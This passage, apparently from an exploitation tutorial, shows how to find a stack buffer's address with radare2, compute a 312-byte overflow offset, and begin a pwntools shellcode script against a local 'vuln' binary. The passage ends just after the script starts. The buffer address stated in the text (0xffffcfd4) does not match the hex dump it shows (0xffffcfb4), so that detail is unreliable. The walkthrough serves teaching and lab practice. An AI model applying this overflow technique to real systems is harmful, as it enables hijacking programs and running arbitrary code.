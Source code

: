 Let's debug `vuln()` using `radare2` and work out where in memory the buffer starts; this is where we want to point the return pointer to.

```bash
$ r2 -d -A vuln

[0xf7fd40b0]> s sym.unsafe ; pdf
[...]
; var int32_t var_134h @ ebp-0x134
[...]
```

This value that gets printed out is a **local variable** - due to its size, it's fairly likely to be the buffer. Let's set a breakpoint just after `gets()` and find the exact address.

```bash
[0x08049172]> dc
Overflow me
<<Found me>>                    <== This was my input
hit breakpoint at: 80491a8
[0x080491a8]> px @ ebp - 0x134
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0xffffcfb4  3c3c 466f 756e 6420 6d65 3e3e 00d1 fcf7  <<Found me>>....

[...]
```

It appears to be at `0xffffcfd4`; if we run the binary multiple times, it should remain where it is (if it doesn't, make sure ASLR is disabled!).

### Finding the Padding

Now we need to calculate the padding until the return pointer. We'll use the De Bruijn sequence as explained in the previous blog post.

```bash
$ ragg2 -P 400 -r
<copy this>

$ r2 -d -A vuln
[0xf7fd40b0]> dc
Overflow me
<<paste here>>
[0x73424172]> wopO `dr eip`
312
```

The padding is 312 bytes.

### Putting it all together

In order for the shellcode to be correct, we're going to set the `context.binary` to our binary; this grabs stuff like the arch, OS, and bits and enables pwntools to provide us with working shellcode.

```python
from pwn import *

context.binary = ELF('./vuln')

p = process()
```
